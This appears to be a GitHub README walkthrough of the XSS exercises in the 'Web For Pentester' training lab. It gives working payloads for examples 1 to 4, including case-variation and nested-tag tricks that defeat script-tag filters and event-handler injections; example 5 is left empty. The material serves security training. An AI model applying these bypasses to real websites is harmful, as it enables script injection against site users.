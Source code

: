 ## Cross Site Scripting (XSS) 
``` Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. ```


### Web For Pentester ( XSS ) Walkthrough
### Example 1
``` There is no input validation, so, can exploit it directly with the classic “alert(1)” injection. ```
### Payload - <script>alert(1)</script>

### Example 2
``` Filtered <script> and </script> with preg_replace function ```
### Payload - <sCript>alert(1)</sCript> and <scr<script>ipt>alert(1)</scr</script>ipt>
  
### Example 3
``` Use PCRE modifier “i” (PCRE_CASELESS) to match both upper and lower case letters. However, recursion method still works fine. ```
### Payload - <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
### Example 4 
``` The script will stop when “script” is detected, Need other event without script ```
### Payload - <img src="xxxx" onerror="alert(1)">  and <div onmousemove="alert(1)" src="xxxx"> , etc...
  
### Exmple 5
``` ```
### Payload - 


